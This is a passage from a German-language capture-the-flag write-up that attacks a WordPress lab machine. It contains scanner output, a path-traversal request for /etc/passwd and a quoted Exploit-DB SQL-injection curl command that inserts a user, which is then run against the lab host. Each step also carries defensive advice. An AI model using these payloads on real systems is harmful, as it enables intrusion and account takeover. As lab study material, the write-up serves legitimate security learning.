| - [Link: https://wpscan.com/vulnerability/cb9c5ef8-51f8-4a46-ae56-23302c5980aa | Ziel: https://wpscan.com/vulnerability/cb9c5ef8-51f8-4a46-ae56-23302c5980aa]
| - [Link: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-0318 | Ziel: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-0318]
| - [Link: https://www.wordfence.com/threat-intel/vulnerabilities/id/4ee149bf-ffa3-4906-8be2-9c3c40b28287 | Ziel: https://www.wordfence.com/threat-intel/vulnerabilities/id/4ee149bf-ffa3-4906-8be2-9c3c40b28287]
|
| [!] Title: Ultimate Member < 2.9.2 - Unauthenticated SQL Injection
| Fixed in: 2.9.2
| References:
| - [Link: https://wpscan.com/vulnerability/31ef60db-4847-4623-a194-8722e668e6ab | Ziel: https://wpscan.com/vulnerability/31ef60db-4847-4623-a194-8722e668e6ab]
| - [Link: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-0308 | Ziel: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-0308]
| - [Link: https://www.wordfence.com/threat-intel/vulnerabilities/id/e3e5bb98-2652-499a-b8cd-4ebfe1c1d890 | Ziel: https://www.wordfence.com/threat-intel/vulnerabilities/id/e3e5bb98-2652-499a-b8cd-4ebfe1c1d890]
|
| [!] Title: Ultimate Member < 2.10.0 - Authenticated SQL Injection
| Fixed in: 2.10.0
| References:
| - [Link: https://wpscan.com/vulnerability/90b5192a-ceee-4612-8e21-2341bae29cad | Ziel: https://wpscan.com/vulnerability/90b5192a-ceee-4612-8e21-2341bae29cad]
| - [Link: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-12276 | Ziel: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-12276]
| - [Link: https://www.wordfence.com/threat-intel/vulnerabilities/id/846f9828-2f1f-4d08-abfb-909b8d634d8a | Ziel: https://www.wordfence.com/threat-intel/vulnerabilities/id/846f9828-2f1f-4d08-abfb-909b8d634d8a]
|
| [!] Title: Ultimate Member < 2.10.1 - Unauthenticated SQLi
| Fixed in: 2.10.1
| References:
| - [Link: https://wpscan.com/vulnerability/1d39ff72-1178-4812-be55-9bf4b58bbbb6 | Ziel: https://wpscan.com/vulnerability/1d39ff72-1178-4812-be55-9bf4b58bbbb6]
| - [Link: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-1702 | Ziel: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-1702]
| - [Link: https://www.wordfence.com/threat-intel/vulnerabilities/id/34adbae5-d615-4f8d-a845-6741d897f06c | Ziel: https://www.wordfence.com/threat-intel/vulnerabilities/id/34adbae5-d615-4f8d-a845-6741d897f06c]
|
| Version: 2.8.6 (100% confidence)
| Found By: Readme - Stable Tag (Aggressive Detection)
| - http://matrioshka.hmv/wp-content/plugins/ultimate-member/readme.txt
| Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
| - http://matrioshka.hmv/wp-content/plugins/ultimate-member/readme.txt
[+] wp-automatic
| Location: http://matrioshka.hmv/wp-content/plugins/wp-automatic/
| Latest Version: 3.112.0
| Last Updated: 2025-04-27T04:07:07.000Z
|
| Found By: Known Locations (Aggressive Detection)
| - http://matrioshka.hmv/wp-content/plugins/wp-automatic/, status: 200
|
| [!] 7 vulnerabilities identified:
|
| [!] Title: Automatic 2.0.3 - csv.php q Parameter SQL Injection
| Fixed in: 2.0.4
| References:
| - [Link: https://wpscan.com/vulnerability/dadc99ca-54ee-42b4-b247-79a47b884f03 | Ziel: https://wpscan.com/vulnerability/dadc99ca-54ee-42b4-b247-79a47b884f03]
| - [Link: https://www.exploit-db.com/exploits/19187/ | Ziel: https://www.exploit-db.com/exploits/19187/]
| - [Link: https://packetstormsecurity.com/files/113763/ | Ziel: https://packetstormsecurity.com/files/113763/]
|
| [!] Title: WordPress Automatic < 3.53.3 - Unauthenticated Arbitrary Options Update
| Fixed in: 3.53.3
| References:
| - [Link: https://wpscan.com/vulnerability/4e5202b8-7317-4a10-b9f3-fd6999192e15 | Ziel: https://wpscan.com/vulnerability/4e5202b8-7317-4a10-b9f3-fd6999192e15]
| - [Link: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4374 | Ziel: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4374]
| - [Link: https://blog.nintechnet.com/critical-vulnerability-fixed-in-wordpress-automatic-plugin/ | Ziel: https://blog.nintechnet.com/critical-vulnerability-fixed-in-wordpress-automatic-plugin/]
|
| [!] Title: Automatic < 3.92.1 - Cross-Site Request Forgery to Privilege Escalation
| Fixed in: 3.92.1
| References:
| - [Link: https://wpscan.com/vulnerability/fa2f3687-7a5f-4781-8284-6fbea7fafd0e | Ziel: https://wpscan.com/vulnerability/fa2f3687-7a5f-4781-8284-6fbea7fafd0e]
| - [Link: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-27955 | Ziel: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-27955]
| - [Link: https://www.wordfence.com/threat-intel/vulnerabilities/id/12adf619-4be8-4ecf-8f67-284fc44d87d0 | Ziel: https://www.wordfence.com/threat-intel/vulnerabilities/id/12adf619-4be8-4ecf-8f67-284fc44d87d0]
|
| [!] Title: Automatic < 3.92.1 - Unauthenticated Arbitrary File Download and Server-Side Request Forgery
| Fixed in: 3.92.1
| References:
| - [Link: https://wpscan.com/vulnerability/53b97401-1352-477b-a69a-680b01ef7266 | Ziel: https://wpscan.com/vulnerability/53b97401-1352-477b-a69a-680b01ef7266]
| - [Link: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-27954 | Ziel: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-27954]
| - [Link: https://www.wordfence.com/threat-intel/vulnerabilities/id/620e8931-64f0-4d9c-9a4c-1f5a703845ff | Ziel: https://www.wordfence.com/threat-intel/vulnerabilities/id/620e8931-64f0-4d9c-9a4c-1f5a703845ff]
|
| [!] Title: Automatic < 3.92.1 - Unauthenticated SQL Injection
| Fixed in: 3.92.1
| References:
| - [Link: https://wpscan.com/vulnerability/53a51e79-a216-4ca3-ac2d-57098fd2ebb5 | Ziel: https://wpscan.com/vulnerability/53a51e79-a216-4ca3-ac2d-57098fd2ebb5]
| - [Link: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-27956 | Ziel: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-27956]
| - [Link: https://www.wordfence.com/threat-intel/vulnerabilities/id/a8b319be-f312-4d02-840f-e2a91c16b67a | Ziel: https://www.wordfence.com/threat-intel/vulnerabilities/id/a8b319be-f312-4d02-840f-e2a91c16b67a]
|
| [!] Title: WordPress Automatic Plugin < 3.93.0 Cross-Site Request Forgery
| Fixed in: 3.93.0
| References:
| - [Link: https://wpscan.com/vulnerability/e5d0dcec-41a7-40ae-b9ce-f839de9c28b8 | Ziel: https://wpscan.com/vulnerability/e5d0dcec-41a7-40ae-b9ce-f839de9c28b8]
| - [Link: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-32693 | Ziel: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-32693]
| - [Link: https://www.wordfence.com/threat-intel/vulnerabilities/id/6231e47e-2120-4746-97c1-2aa80aa18f4e | Ziel: https://www.wordfence.com/threat-intel/vulnerabilities/id/6231e47e-2120-4746-97c1-2aa80aa18f4e]
|
| [!] Title: WordPress Automatic < 3.95.0 - Authenticated (Contributor+) Stored Cross-Site Scripting via autoplay Parameter
| Fixed in: 3.95.0
| References:
| - [Link: https://wpscan.com/vulnerability/d0198310-b323-476a-adf8-10504383ce1c | Ziel: https://wpscan.com/vulnerability/d0198310-b323-476a-adf8-10504383ce1c]
| - [Link: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-4849 | Ziel: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-4849]
| - [Link: https://www.wordfence.com/threat-intel/vulnerabilities/id/4be58bfa-d489-45f5-9169-db8bab718175 | Ziel: https://www.wordfence.com/threat-intel/vulnerabilities/id/4be58bfa-d489-45f5-9169-db8bab718175]
|
| The version could not be determined.
[+] WPScan DB API OK
| Plan: free
| Requests Done (during the scan): 3
| Requests Remaining: 22
[+] Finished: Sun Apr 27 23:00:57 2025
[+] Requests Done: 8067
[+] Cached Requests: 609
[+] Data Sent: 2.188 MB
[+] Data Received: 1.213 MB
[+] Memory used: 248.293 MB
[+] Elapsed time: 00:00:12
Analyse: `wpscan` ist ein spezialisierter WordPress-Sicherheitsscanner. Der Befehl führt folgende Aktionen aus: - `--url http://matrioshka.hmv/`: Gibt die Ziel-URL an. - `--wp-content-dir /wp-content/`: Spezifiziert den Pfad zum `wp-content`-Verzeichnis (obwohl `wpscan` dies oft automatisch erkennt). - `--enumerate vp`: Enumeriert verwundbare Plugins (`vulnerable plugins`). - `--plugins-detection aggressive`: Verwendet aggressive Methoden zur Plugin-Erkennung. - `--api-token ....`: Ein (hier unkenntlich gemachter) API-Token für die WPScan Vulnerability Database, um aktuelle Schwachstelleninformationen abzurufen.
Bewertung: Dies ist ein extrem wichtiger Scan, der eine Fülle von Informationen liefert: - **Bestätigung allgemeiner Infos:** Server-Header, PHP-Version, aktivierter XML-RPC, gefundene `readme.html` und `wp-cron.php`. - **Keine WordPress-Version/Theme-Erkennung:** Interessanterweise konnte `wpscan` die genaue WordPress-Version und das Haupttheme nicht ermitteln. - **Plugin-Enumeration und Schwachstellen:** - **akismet:** Version nicht bestimmbar, aber eine alte XSS-Schwachstelle (CVE-2015-9357) wird für ältere Versionen gelistet. - **ultimate-member:** Version `2.8.6` wurde identifiziert. Diese Version ist veraltet und `wpscan` listet **7 bekannte Schwachstellen** auf, darunter CSRF, XSS, Missing Authorization, Information Exposure und SQL Injections (sowohl unauthentifiziert als auch authentifiziert). Dies ist ein sehr vielversprechender Angriffsvektor. - **wp-automatic:** Version nicht bestimmbar, aber `wpscan` listet **7 bekannte Schwachstellen** auf, darunter mehrere SQL Injections (eine sehr alte von 2012 und neuere wie CVE-2024-27956), Arbitrary Options Update, CSRF to Privilege Escalation, Unauthenticated Arbitrary File Download/SSRF (CVE-2024-27954) und XSS. Auch dies ist ein hochkritischer Fund. Die Vielzahl an identifizierten Schwachstellen, insbesondere in `ultimate-member` (Version 2.8.6) und `wp-automatic` (Version unbekannt, aber viele historische und aktuelle CVEs gelistet), deutet auf einen klaren Weg zum initialen Zugriff hin.
Empfehlung (Pentester):
Die gefundenen Schwachstellen in den Plugins `ultimate-member` und `wp-automatic` müssen nun priorisiert und ausgenutzt werden.
- Für `ultimate-member` (v2.8.6): Die unauthentifizierte SQL-Injection (CVE-2025-0308, obwohl die CVE-Nummer in der Zukunft liegt, ist dies ein Platzhalter von WPScan für eine bekannte Lücke in einer bestimmten Version) oder andere unauthentifizierte Schwachstellen wären der erste Ansatz.
- Für `wp-automatic`: Die unauthentifizierte SQL-Injection CVE-2024-27956 oder die Arbitrary File Download/SSRF CVE-2024-27954 sind sehr vielversprechend. Die alte SQLi von 2012 in `csv.php` ist ebenfalls einen Versuch wert.
Suchen Sie nach öffentlichen Exploits für diese CVEs und Plugin-Versionen.
Empfehlung (Admin):
**Dringend!** Alle Plugins, insbesondere `ultimate-member` und `wp-automatic`, müssen sofort auf die neuesten, gepatchten Versionen aktualisiert werden. Wenn Plugins nicht mehr aktiv weiterentwickelt werden oder nicht unbedingt notwendig sind, sollten sie deinstalliert werden. Es ist alarmierend, dass Plugins mit so vielen und so kritischen bekannten Schwachstellen aktiv sind. Implementieren Sie einen rigorosen Patch-Management-Prozess für WordPress Core, Themes und Plugins. Verwenden Sie ein Sicherheitsplugin (wie Wordfence oder Sucuri Scanner), das regelmäßig nach veralteten Komponenten und bekannten Schwachstellen scannt.
Der Login-Versuch auf `http://mamushka.hmv/wp-login.php` mit `admin:admin` schlug fehl. Dies ist ein Standardversuch, der oft erfolglos ist, aber immer einen Versuch wert.
http://mamushka.hmv/wp-login.php
Error: The password you entered for the username admin is incorrect. Lost your password?
admin:admin
Analyse: Es wurde versucht, sich über das WordPress-Login-Formular (`wp-login.php`) mit den Standardzugangsdaten `admin` als Benutzername und `admin` als Passwort anzumelden.
Bewertung: Der Versuch war, wie erwartet, nicht erfolgreich. Die Fehlermeldung "The password you entered for the username admin is incorrect" bestätigt, dass der Benutzer `admin` existiert, aber das Passwort falsch ist. Dies ist bereits eine kleine Informationspreisgabe (Benutzername-Enumeration). In CTFs oder schlecht gesicherten Umgebungen können Standardpasswörter manchmal funktionieren.
Empfehlung (Pentester):
Wenn keine anderen vielversprechenden Schwachstellen gefunden würden, könnte man eine Passwort-Brute-Force-Attacke gegen den Benutzer `admin` starten, idealerweise mit einer guten Wortliste und unter Beachtung von Lockout-Mechanismen. Angesichts der Plugin-Schwachstellen ist dies jedoch nachrangig.
Empfehlung (Admin):
Verwenden Sie keine Standard-Benutzernamen wie "admin". Wählen Sie starke, einzigartige Passwörter. Implementieren Sie eine fehlgeschlagene Login-Begrenzung (Lockout-Mechanismus) und Zwei-Faktor-Authentifizierung (2FA) für alle Administrator-Konten, um Brute-Force-Angriffe zu erschweren. Überwachen Sie fehlgeschlagene Login-Versuche.
Der Versuch, eine Path-Traversal-Schwachstelle über den `rest_route`-Parameter auszunutzen, um `/etc/passwd` zu lesen, war erfolglos. Der Server antwortete mit einem 404-Fehler, was darauf hindeutet, dass die Route nicht gefunden wurde oder der Versuch blockiert wurde.
http://mamushka.hmv/index.php?rest_route=../../../../../../../../../../../../etc/passwd code "rest_no_route" message "No route was found matching the URL and request method." data status 404
Analyse: Es wurde versucht, eine Path-Traversal-Schwachstelle über den `rest_route`-Parameter der WordPress REST API auszunutzen. Durch die Eingabe von `../../../../../../../../../../../../etc/passwd` als Wert für `rest_route` hoffte der Angreifer, dass der Server diesen Pfad relativ zum aktuellen Verzeichnis interpretiert und so den Inhalt der Systemdatei `/etc/passwd` preisgibt.
Bewertung: Der Versuch schlug fehl, wie die Antwort `rest_no_route` und der Statuscode `404` zeigen. WordPress oder der Webserver haben diesen Versuch korrekt als ungültige Route interpretiert und nicht die Datei geladen. Dies deutet darauf hin, dass entweder die REST API selbst gegen einfache Path Traversal Angriffe über diesen Parameter gehärtet ist oder serverseitige Schutzmechanismen greifen.
Empfehlung (Pentester):
Obwohl dieser spezifische Versuch fehlschlug, ist das Testen auf Path Traversal in verschiedenen Parametern von Webanwendungen immer eine gute Idee. Man könnte Variationen der Technik versuchen (URL-Encoding, andere Pfadtiefen, Null-Bytes etc.), aber angesichts der spezifischen Fehlermeldung "rest_no_route" ist es unwahrscheinlich, dass dieser Parameter anfällig ist. Konzentrieren Sie sich auf die vielversprechenderen Plugin-Schwachstellen.
Empfehlung (Admin):
Stellen Sie sicher, dass die Webanwendung und der Webserver korrekt konfiguriert sind, um Path-Traversal-Angriffe zu verhindern. Dies beinhaltet die Validierung aller Benutzereingaben, die Verwendung von Whitelists für Dateizugriffe und das Einschränken der Berechtigungen des Webserver-Prozesses, sodass er nur auf notwendige Dateien und Verzeichnisse zugreifen kann. Regelmäßige Updates von WordPress und seinen Komponenten sind hier ebenfalls wichtig.
Der direkte Zugriff auf `csv.php` im Plugin `wp-automatic` resultierte in der Meldung "login required". Dies deutet darauf hin, dass ein direkter unauthentifizierter Zugriff, wie er vielleicht für ältere Exploits nötig war, hier nicht ohne Weiteres möglich ist, oder die spezifische Schwachstelle erfordert bestimmte POST-Parameter.
curl http://192.168.2.180/wp-content/plugins/wp-automatic/inc/csv.php -s
login required
Analyse: Es wurde versucht, direkt auf die Datei `csv.php` im Plugin-Verzeichnis `wp-automatic` zuzugreifen. Dies geschah wahrscheinlich im Kontext der von WPScan gefundenen alten SQL-Injection-Schwachstelle (Exploit-DB 19187) für dieses Skript.
Bewertung: Die Antwort "login required" deutet darauf hin, dass das Skript entweder eine Authentifizierungsprüfung hat, die hier nicht erfüllt wurde, oder dass die spezifische Schwachstelle (falls noch vorhanden) auf diese Weise nicht direkt getriggert werden kann. Es ist möglich, dass das Plugin seit 2012 aktualisiert wurde, um einen unauthentifizierten Zugriff zu verhindern oder die Logik geändert wurde. Es könnte aber auch sein, dass die Schwachstelle nur mit bestimmten POST-Parametern auslösbar ist, die hier nicht gesendet wurden.
Empfehlung (Pentester):
Überprüfen Sie die Details des Exploits für die alte SQLi in `csv.php`. Erfordert er spezifische POST-Daten? Der Exploit-DB-Eintrag legt dies nahe. Versuchen Sie, die im Exploit beschriebenen Daten zu senden (siehe nächster Schritt im Bericht). Konzentrieren Sie sich ansonsten auf die neueren, von WPScan gemeldeten Schwachstellen für `wp-automatic`, wie CVE-2024-27956 (SQLi) oder CVE-2024-27954 (SSRF/File Download).
Empfehlung (Admin):
Auch wenn dieser direkte Zugriff "login required" zurückgibt, ist es wichtig, dass Plugins, insbesondere solche mit bekannter Schwachstellenhistorie, aktuell gehalten werden. Der Grundsatz der minimalen Rechte sollte auch für Plugin-Dateien gelten – direkter Zugriff auf interne Skripte sollte, wenn möglich, unterbunden werden, falls sie nicht für den direkten Aufruf gedacht sind (z.B. durch `.htaccess`-Regeln im Plugin-Verzeichnis).
└─# feroxbuster --url "http://192.168.2.180" --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x .git,.php,.html,.xml,.zip,.7z,.tar,.bak,.sql,.py,.pl,.txt,.jpg,.jpeg,.png,.js,.aac,.ogg,.flac,.alac,.wav,.aiff,.dsd,.mp3,.mp4,.mkv,.phtml -s 200 301 302
___ ___ __ __ __ __ __ ___ |__ |__ |__) |__) | / ` / \ \_/ | | \ |__ | |___ | \ | \ | \__, \__/ / \ | |__/ |___ by Ben "epi" Risher 🤓 ver: 2.11.0 ───────────────────────────┬────────────────────── 🎯 Target Url │ http://192.168.2.180 🚀 Threads │ 50 📖 Wordlist │ /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 👌 Status Codes │ [200, 301, 302] 💥 Timeout (secs) │ 7 🦡 User-Agent │ feroxbuster/2.11.0 💉 Config File │ /etc/feroxbuster/ferox-config.toml 🔎 Extract Links │ true 💲 Extensions │ [git, php, html, xml, zip, 7z, tar, bak, sql, py, pl, txt, jpg, jpeg, png, js, aac, ogg, flac, alac, wav, aiff, dsd, mp3, mp4, mkv, phtml] 🏁 HTTP methods │ [GET] 🔃 Recursion Depth │ 4 ───────────────────────────┴────────────────────── 🏁 Press [ENTER] to use the Scan Management Menu™ ────────────────────────────────────────────────── [>-------------------] - 24s 86800/148208620 11h found:27 errors:17692 [>-------------------] - 24s 101024/6175288 4208/s http://192.168.2.180/ [>-------------------] - 23s 69776/6175288 3060/s http://192.168.2.180/wp-content/ [>-------------------] - 19s 72520/6175288 3751/s http://192.168.2.180/wp-includes/ [>-------------------] - 18s 62916/6175288 3553/s http://192.168.2.180/wp-includes/images/ [>-------------------] - 17s 35392/6175288 2112/s http://192.168.2.180/wp-content/themes/ [>-------------------] - 17s 16716/6175288 1007/s http://192.168.2.180/wp-includes/assets/ 301 GET 9l 28w 335c http://192.168.2.180/wp-includes/blocks/columns => http://192.168.2.180/wp-includes/blocks/columns/ 301 GET 9l 28w 333c http://192.168.2.180/wp-includes/blocks/group => http://192.168.2.180/wp-includes/blocks/group/ 301 GET 9l 28w 333c http://192.168.2.180/wp-includes/blocks/cover => http://192.168.2.180/wp-includes/blocks/cover/ 301 GET 9l 28w 332c http://192.168.2.180/wp-includes/blocks/file => http://192.168.2.180/wp-includes/blocks/file/ 301 GET 9l 28w 338c http://192.168.2.180/wp-includes/blocks/navigation => http://192.168.2.180/wp-includes/blocks/navigation/ 301 GET 9l 28w 333c http://192.168.2.180/wp-includes/blocks/quote => http://192.168.2.180/wp-includes/blocks/quote/ 301 GET 9l 28w 330c http://192.168.2.180/wp-includes/customize => http://192.168.2.180/wp-includes/customize/ 301 GET 9l 28w 334c http://192.168.2.180/wp-includes/blocks/column => http://192.168.2.180/wp-includes/blocks/column/ 301 GET 9l 28w 334c http://192.168.2.180/wp-includes/blocks/avatar => http://192.168.2.180/wp-includes/blocks/avatar/ 301 GET 9l 28w 333c http://192.168.2.180/wp-includes/blocks/block => http://192.168.2.180/wp-includes/blocks/block/ 301 GET 9l 28w 333c http://192.168.2.180/wp-includes/certificates => http://192.168.2.180/wp-includes/certificates/ 301 GET 9l 28w 335c http://192.168.2.180/wp-includes/images/crystal => http://192.168.2.180/wp-includes/images/crystal/ [>-------------------] - 3m 3673543/222313252 2h found:39 errors:3297011 [###########>--------] - 3m 3667748/6175288 21967/s http://192.168.2.180/ [###########>--------] - 3m 3541636/6175288 21367/s http://192.168.2.180/wp-content/ [###########>--------] - 3m 3407796/6175288 20996/s http://192.168.2.180/wp-includes/ .... ... [############>-------] - 3m 3992520/6175288 23539/s http://192.168.2.180/wp-includes/blocks/archives/ [############>-------] - 3m 3924984/6175288 23206/s http://192.168.2.180/wp-includes/blocks/spacer/ [############>-------] - 3m 3960236/6175288 23458/s http://192.168.2.180/wp-includes/blocks/html/ [>-------------------] - 3m 4655562/222313252 2h found:39 errors:4232325 [####################] - 7m 222313252/222313252 0s found:39 errors:7932611 [####################] - 4m 6175288/6175288 24854/s http://192.168.2.180/ [####################] - 4m 6175288/6175288 24868/s http://192.168.2.180/wp-content/ [####################] - 4m 6175288/6175288 25060/s http://192.168.2.180/wp-includes/ .... ...
Analyse: `feroxbuster` ist ein weiteres Tool zur Web-Content-Discovery, ähnlich wie `gobuster`, geschrieben in Rust und bekannt für seine Geschwindigkeit und Rekursionsfähigkeiten. - `--url "http://192.168.2.180"`: Die Ziel-URL. - `--wordlist ...`: Die gleiche Wortliste wie bei `gobuster`. - `-x ...`: Eine ähnliche, sehr lange Liste von Dateierweiterungen. - `-s 200 301 302`: Interessiert sich nur für die Statuscodes 200 (OK), 301 (Moved Permanently) und 302 (Found/Redirect). Dies ist eine gängige Einstellung, um relevante Inhalte zu finden. Die Ausgabe zeigt, dass `feroxbuster` rekursiv arbeitet und viele Unterverzeichnisse innerhalb von `/wp-includes/blocks/` und anderen WordPress-Standardpfaden findet. Der Scan lief hier deutlich länger als der abgebrochene `gobuster`-Scan und hat eine große Anzahl von Anfragen generiert.
Bewertung: `feroxbuster` hat hier primär Standard-WordPress-Verzeichnisse aufgedeckt, was die Ergebnisse von `gobuster` und `wpscan` bestätigt und vertieft. Die rekursive Suche ist mächtig, kann aber auch zu sehr viel Output führen, der manuell gefiltert werden muss. In diesem Fall scheint es keine unüblichen oder versteckten hochkritischen Pfade aufgedeckt zu haben, die nicht schon durch andere Mittel impliziert waren. Die hohe Anzahl an "errors" könnte auf Timeouts oder blockierte Anfragen hindeuten, oder einfach auf nicht existierende Pfade, je nach Konfiguration des Tools und des Servers.
Empfehlung (Pentester):
`feroxbuster` ist ein gutes Werkzeug, besonders für rekursive Suchen. Es ist sinnvoll, die Ergebnisse mit denen anderer Tools (wie `gobuster`) zu vergleichen. Filtern Sie die Ausgabe nach interessanten Statuscodes oder Dateigrößen. Die umfangreiche Liste der Erweiterungen ist gründlich, aber auch hier gilt: Manchmal ist ein gezielterer Scan mit weniger Extensions schneller und liefert die wichtigsten Ergebnisse zuerst. Für WordPress-Ziele kann `wpscan` oft spezifischere und relevantere Informationen schneller liefern als generische Verzeichnis-Bruteforcer für die Kernstruktur.
Empfehlung (Admin):
Die Empfehlungen sind ähnlich wie bei `gobuster`: Minimieren Sie die Angriffsfläche, indem Sie unnötige Dateien und Verzeichnisse entfernen. Verwenden Sie eine Web Application Firewall (WAF), um automatisierte Scans zu erkennen und zu drosseln/blockieren. Stellen Sie sicher, dass Verzeichnisauflistungen deaktiviert sind.
Initial Access
Basierend auf den WPScan-Ergebnissen wird nun versucht, die Schwachstellen im "wp-automatic" Plugin auszunutzen. Zuerst wird der Exploit für die alte SQL-Injection (Exploit-DB 19187) aus dem Jahr 2012 getestet.
[Link: https://www.exploit-db.com/exploits/19187 | Ziel: https://www.exploit-db.com/exploits/19187] Title: ====== Wordpress Automatic Plugin v2.0.3 SQL Injection Date: ===== 2012-06-15 Website: =========== [Link: http://codecanyon.net/item/wordpress-automatic-plugin/1904470 | Ziel: http://codecanyon.net/item/wordpress-automatic-plugin/1904470] Introduction: ============= Wordpress automatic plugin posts quality targeted articles, Amazon Products, clickbank Products, Youtube Videos and feeds posts on auto-pilot. just install and leave, it will work 24/7* to blog for you . Exploit Details: ================ The vulnerability occurs in the csv.php file which does not require valid login credentials and can be used to execute SQL Queries Using this cURL command a user can send this POST data which will create a new login: $ curl --data q=INSERT INTO `wp_users` (`user_login`, `user_pass`, `user_email`) VALUES ('test', '123456', 'jblow@gmail.com') http://www.example.com/blog/wp-content/plugins/wp-automatic/inc/csv.php Fix: ==== The author of this plugin has released a fix for this vulnerability and users are urged to upgrade to v2.0.4.
Analyse: Dies ist eine Kopie der Exploit-DB-Beschreibung für die SQL-Injection-Schwachstelle in Version 2.0.3 des "WordPress Automatic Plugin". Die Schwachstelle befindet sich in der Datei `csv.php` und erlaubt es einem unauthentifizierten Angreifer, beliebige SQL-Befehle über den `q`-Parameter in einer POST-Anfrage auszuführen. Der gezeigte Proof-of-Concept (PoC) fügt einen neuen Benutzer 'test' mit dem Passwort '123456' zur `wp_users`-Tabelle hinzu.
Bewertung: Obwohl die Schwachstelle sehr alt ist (2012) und für eine spezifische, veraltete Version des Plugins gilt, ist es in CTFs oder bei schlecht gewarteten Systemen immer möglich, dass solch alte Lücken noch existieren. Der vorherige Versuch, `csv.php` direkt aufzurufen, ergab "login required", aber der Exploit hier verwendet POST-Daten, was einen Unterschied machen könnte.
Empfehlung (Pentester):
Der nächste Schritt ist, diesen PoC-Curl-Befehl gegen das Zielsystem auszuführen und zu beobachten, ob ein neuer Benutzer erstellt wird oder ob eine Fehlermeldung erscheint.
Empfehlung (Admin):
Dies unterstreicht erneut die absolute Notwendigkeit, Plugins aktuell zu halten. Eine Schwachstelle von 2012 sollte auf keinem Produktivsystem mehr existieren. Regelmäßige Sicherheitsaudits und Scans können helfen, solche veralteten Komponenten zu identifizieren.
└─# curl --data 'q=INSERT INTO `wp_users` (`user_login`, `user_pass`, `user_email`) VALUES ("test", "123456", "jblow@gmail.com")' http://192.168.2.180/wp-content/plugins/wp-automatic/inc/csv.php
login required
Analyse: Der im Exploit-DB-Eintrag beschriebene `curl`-Befehl wird ausgeführt. Er sendet eine POST-Anfrage mit dem SQL-Befehl zum Einfügen eines neuen Benutzers an die `csv.php`-Datei des `wp-automatic`-Plugins.
Bewertung: Der Versuch schlägt fehl und gibt dieselbe Antwort wie der vorherige GET-Versuch: "login required". Dies deutet stark darauf hin, dass diese spezifische alte Schwachstelle entweder nicht vorhanden ist (das Plugin ist eine neuere Version, die diesen Fehler behoben hat, oder die Datei `csv.php` hat eine Authentifizierungsprüfung vorgeschaltet) oder der Exploit in dieser Form nicht mehr funktioniert.
Empfehlung (Pentester):
Diese alte SQLi scheint nicht auszunutzbar zu sein. Es ist Zeit, sich auf die von WPScan gemeldeten neueren und potenziell unauthentifizierten Schwachstellen für `wp-automatic` zu konzentrieren, insbesondere CVE-2024-27956 (SQLi) und CVE-2024-27954 (SSRF/File Download).
Empfehlung (Admin):
Obwohl der Exploit fehlschlug, bleibt die Empfehlung, alle Plugins aktuell zu halten. Die Meldung "login required" ist besser als eine erfolgreiche SQL-Injection, aber das Vorhandensein von Plugins mit bekannten Schwachstellen (auch wenn einige Exploits nicht mehr 1:1 funktionieren) stellt ein Risiko dar.
Als Nächstes wird die Schwachstelle CVE-2024-27954 (Unauthenticated Server-Side Request Forgery / Arbitrary File Download in WordPress Automatic Plugin < 3.92.1) untersucht. Die Recherche führt zu verschiedenen Ressourcen, einschließlich eines Nuclei-Templates.
[Link: https://sploitify.haxx.it/exploits/2024/CVE-2024-27954/#PoC | Ziel: https://sploitify.haxx.it/exploits/2024/CVE-2024-27954/#PoC] .. / CVE-2024-27954 SSRF PoC Nuclei Web Exploit for WordPress Plugin Automatic < 3.92.1 - Unauthenticated Server-Side Request Forgery (CVE-2024-27954) Description: WordPress Automatic plugin <3.92.1 is vulnerable to unauthenticated Arbitrary File Download and SSRF Located in the downloader.php file, could permit attackers to download any file from a site. Sensitive data, including login credentials and backup files, could fall into the wrong hands. This vulnerability has been patched in version 3.92.1. Affected Products: WordPress Plugin Automatic < 3.92.1 Proof of Concept PoC exploit [Link: https://github.com/wy876/wiki/blob/main/WordPress-Automatic-Plugin%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8B%E8%BD%BD%E6%BC%8F%E6%B4%9E(CVE-2024-27954).md | Ziel: https://github.com/wy876/wiki/blob/main/WordPress-Automatic-Plugin%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8B%E8%BD%BD%E6%BC%8F%E6%B4%9E(CVE-2024-27954).md] [Link: https://github.com/diego-tella/CVE-2024-27956-RCE | Ziel: https://github.com/diego-tella/CVE-2024-27956-RCE] Nuclei Template View the template here CVE-2024-27954.yaml Validate with Nuclei echo "$URL" | nuclei -t ~/nuclei-templates/http/cves/2024/CVE-2024-27954.yaml Copy References: [Link: https://nvd.nist.gov/vuln/detail/CVE-2024-27954 | Ziel: https://nvd.nist.gov/vuln/detail/CVE-2024-27954] [Link: https://wpscan.com/vulnerability/53b97401-1352-477b-a69a-680b01ef7266/ | Ziel: https://wpscan.com/vulnerability/53b97401-1352-477b-a69a-680b01ef7266/] [Link: https://securityonline.info/40000-sites-exposed-wordpress-plugin-update-critical-cve-2024-27956-cve-2024-27954/#google_vignette | Ziel: 